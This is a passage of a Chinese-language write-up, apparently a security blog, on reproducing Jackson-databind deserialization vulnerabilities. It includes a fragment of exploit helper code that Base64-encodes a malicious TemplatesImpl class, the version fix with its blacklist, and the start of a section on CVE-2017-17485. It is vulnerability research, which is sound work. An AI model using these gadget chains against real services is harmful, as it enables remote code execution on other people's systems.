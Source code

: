 ```java
    public static String aposToQuotes(String json){
        return json.replace("'","\"");
    }

    public static String readClassStr(String cls) throws IOException {
        byte[] code1 = Files.readAllBytes(Paths.get("E:\\CODE_COLLECT\\Idea_java_ProTest\\my-yso\\target\\classes\\TemplatesImpl_RuntimeEvil.class"));
        return Base64.encode(code1);
    }
}
```

fastjson跑不了这个链，因为fastjson对于getOutputProperties这种getter是不会调用的，返回值不满足要求



### 修复

pom.xml修改jackson-databind版本至2.7.9.1

```
	<dependency>
    <groupId>com.fasterxml.jackson.core</groupId>
    <artifactId>jackson-databind</artifactId>
    <version>2.7.9.1</version>
```

再次运行报`Illegal type to deserialize: prevented for security reasons`错误

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241013133638872.png)

加了checkIllegalTypes黑名单验证

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241013133921885.png)

包括以下类，TemplatesImpl被过滤

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241013134035475.png)

## CVE-2017-17485 ClassPathXmlApplicationContext链

Jackson 2.7系列 < 2.7.9.2

Jackson 2.8系列 < 2.8.11

Jackson 2.9系列 < 2.9.4

jdk无版本限制

此漏洞为jackson打spring，需要点上spring的依赖：

```xml
    <dependency>
        <groupId>org.springframework</groupId>
        <artifactId>spring-core</artifactId>
        <version>5.3.28</version>
    </dependency>
    <dependency>
        <groupId>org.springframework</groupId>
        <artifactId>spring-expression</artifactId>
        <version>5.3.28</version>
    </dependency>
    <dependency>
        <groupId>commons-logging</groupId>
        <artifactId>commons-logging</artifactId>
        <version>1.2</version>
    </dependency>
    <dependency>
```